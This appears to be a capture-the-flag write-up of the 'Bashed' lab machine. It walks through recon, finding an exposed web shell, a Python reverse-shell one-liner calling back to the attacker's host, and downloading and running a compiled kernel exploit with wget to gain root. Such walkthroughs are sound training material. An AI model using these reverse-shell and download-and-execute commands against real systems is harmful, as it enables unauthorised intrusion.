 # Bashed

## Recon

Now that we have the target IP address of 10.10.10.68, let's perform some recon
and enumeration. 

To being, run an `nmap` scan:

```
$ nmap -sV -sC -p- -T4 10.10.10.68 -oN nmap_scan.txt
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-02 11:31 EDT
Nmap scan report for 10.10.10.68
Host is up (0.14s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 484.14 seconds
```

The only service running on this target is an HTTP Apache web server. Let's
enumerate it further with `gobuster` to check for hidden directories.

```
$ gobuster dir -u http://10.10.10.68:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

/images
/uploads
/php   
/css  
/dev 
/js 
/fonts
```

The only folder that contained anything useful was `/dev`. Open it and click on
the file `phpbash.php`

![phpbash](screenshots/phpbash.png)

It is a full `bash` shell within the browser! While having a terminal in the
browser is nice, I prefer a proper reverse shell.

## Spawning a Reverse Shell

Start a netcat listener on our host machine:

```
$ sudo nc -nlvp 80
```

Connect to it on the target machine:

```
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.29",80));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Now we have a reverse shell! You can optionally [upgrade it to a more stable
shell](https://jasonturley.xyz/how-to-stabilize-a-reverse-shell/) like below:

![revshell](screenshots/revshell.png)


The user flag is located in `/home/arrexel/user.txt`.

## Privilege Escalation

Now to find a way to escalate our privileges to the root user. I ran `sudo -l`
to list what programs (if any) we can execute as root:

```
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

I was having issues with scriptmanager, so I tried a different privilege
escalation technique.

Let's check out the kernel release and version information:

```
$ uname -rv 
4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017
```

When Googling for "4.4.0-62-generic privilege escalation" I found this
[exploit-db C exploit](https://www.exploit-db.com/exploits/41458). The target
does not have `gcc` or `clang` installed, so I compiled the binary locally and
uploaded it to the target with `wget`. Here's how:

On host:
```
# save the linked exploit at pwn.c
$ gcc pwn.c -o pwn
$ python3 -m http.server 8080
# we now have a make-shift webserver! 
```

On target:
```
$ wget "http://10.10.14.29:8080/pwn" -O pwn
$ chmod 777 pwn
$ ./pwn
```

We now have a root shell! Print out `root/root.txt` and win!
